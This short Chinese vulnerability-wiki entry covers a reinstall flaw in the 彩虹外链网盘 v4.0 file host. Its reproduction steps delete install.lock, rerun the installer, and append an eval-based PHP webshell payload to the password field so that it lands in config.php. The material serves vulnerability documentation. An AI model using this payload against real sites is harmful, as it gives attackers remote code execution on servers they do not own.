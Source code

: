 彩虹外链网盘 v4.0 重装getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

在删除install.lock后,访问install.php
其他的原来的读取的配置,密码后面加上`';@eval($_REQUEST[xx]);//`

![13.png](/Users/aresx/Documents/VulWiki/.resource/彩虹外链网盘v4.0重装getshell/media/rId24.png){width="5.833333333333333in"
height="4.9203926071741035in"}

此时的config.php如下,而且由于我们用的是原来的配置,网站不会崩

![14.png](/Users/aresx/Documents/VulWiki/.resource/彩虹外链网盘v4.0重装getshell/media/rId25.png){width="5.833333333333333in"
height="4.231375765529309in"}

代码执行成功

![15.png](/Users/aresx/Documents/VulWiki/.resource/彩虹外链网盘v4.0重装getshell/media/rId26.png){width="5.833333333333333in"
height="1.143261154855643in"}

